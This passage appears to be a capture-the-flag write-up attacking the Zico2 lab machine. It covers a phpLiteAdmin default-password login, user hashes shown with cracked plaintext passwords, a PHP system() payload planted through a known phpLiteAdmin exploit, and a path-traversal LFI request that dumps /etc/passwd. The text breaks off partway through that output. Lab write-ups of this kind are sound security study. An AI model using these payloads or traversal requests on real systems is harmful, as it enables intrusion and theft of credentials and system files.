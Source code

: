 Scanning with `dirb` shows interesting directory `dbadmin`, let's take a look at it. 

![Dbadmin](/img/zico2/dbadmin.png){:class="img-responsive center-block"}

Googling for the name of the service `phpLiteAdmin v1.9.3` returned a [default password](https://www.acunetix.com/vulnerabilities/web/phpliteadmin-default-password
), with which we can log into the panel.

While looking for information, I've noticed a table containg hashes of users.

{% highlight text %}
http://10.0.0.8/dbadmin/test_db.php?action=row_view&table=info

edit	delete	root	653F4B285089453FE00E2AAFAC573414	1
edit	delete	zico	96781A607F4E9F5F423AC01F0DAB0EBD	2
{% endhighlight %}

Being able to crack them, I decided to connect to `ssh`, but with no luck.

{% highlight text %}
zico 96781A607F4E9F5F423AC01F0DAB0EBD	md5	zico2215@
root 653F4B285089453FE00E2AAFAC573414	md5	34kroot34
{% endhighlight %}

Moving on with attack, we can use this [exploit](https://www.exploit-db.com/exploits/24044/
) in order to execute commands. Steps are simple.

1. We create a db named "share.php".
2. Now create a new table in this database and insert a text field with the default value:
`<?php echo(system("whoami"))?>`

In addition, in `view.php` we have a LFI vulnerability allowing us to view any file in the system. 

{% highlight text %}

http://10.0.0.8/view.php?page=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh